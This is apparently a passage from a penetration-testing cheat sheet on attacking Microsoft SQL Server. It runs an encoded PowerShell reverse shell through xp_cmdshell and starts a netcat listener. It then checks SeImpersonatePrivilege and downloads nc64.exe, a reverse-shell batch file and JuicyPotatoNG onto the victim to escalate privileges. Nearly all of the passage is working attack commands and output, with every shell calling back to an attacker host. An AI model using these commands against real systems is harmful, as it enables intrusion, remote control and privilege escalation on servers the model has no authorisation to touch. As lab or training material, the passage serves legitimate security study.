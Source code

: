 ```sql
SQL> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANgAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC
<Snip>
```

Start your listener and catch your shell -

```bash
sudo rlwrap -cAr nc -lvnp 443
```

## # `SeImpersonatePrivilege` -

If Mssql has SeImpersonatePrivilege Enabled you can exploit to get a reverse shell via Juicy Potato :

```sql
SQL> xp_cmdshell whoami /priv
output
--------------------------------------------------------------------------------
NULL
PRIVILEGES INFORMATION
----------------------
NULL
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
NULL
```

Grab  [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) 

Download the compiled exe from the [release page](https://github.com/antonioCoco/JuicyPotatoNG/releases/latest), and serve it from your webserver along with two other files :

- `nc64.exe`, to get a reverse shell
- `rev.bat`, which simply invokes `nc64.exe` to return a reverse shell to your VM :

```bash
C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443
```

Upload all three to victim machine -

```bash
SQL> xp_cmdshell powershell curl 10.10.14.6/nc64.exe -outfile C:\\programdata\\nc64.exe
output
--------------------------------------------------------------------------------
NULL
SQL> xp_cmdshell powershell curl 10.10.14.6/rev.bat -outfile C:\\programdata\\rev.bat
output
--------------------------------------------------------------------------------
NULL
SQL> xp_cmdshell powershell curl 10.10.14.6/JuicyPotatoNG.exe -outfile C:\\programdata\\jp.exe
output
--------------------------------------------------------------------------------
NULL
```
